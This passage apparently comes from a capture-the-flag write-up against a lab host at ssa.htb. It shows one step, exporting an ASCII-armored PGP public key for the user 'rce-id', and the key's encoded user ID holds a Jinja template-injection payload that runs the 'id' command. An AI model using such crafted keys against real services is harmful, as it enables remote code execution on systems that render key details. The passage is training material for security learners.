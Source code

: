     </div>

    </div>

3.  Dump that user's public key with `gpg --export -a`:

    ::: {trunc="300"}
    <div>

        oxdf@hacky$ gpg --export -a rce-id@ssa.htb                                                           
        -----BEGIN PGP PUBLIC KEY BLOCK-----
           
        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
        VZmZVME7kgvVkPW/pC4bWcMdrw==
        =OcEz
        -----END PGP PUBLIC KEY BLOCK-----

    </div>
    :::

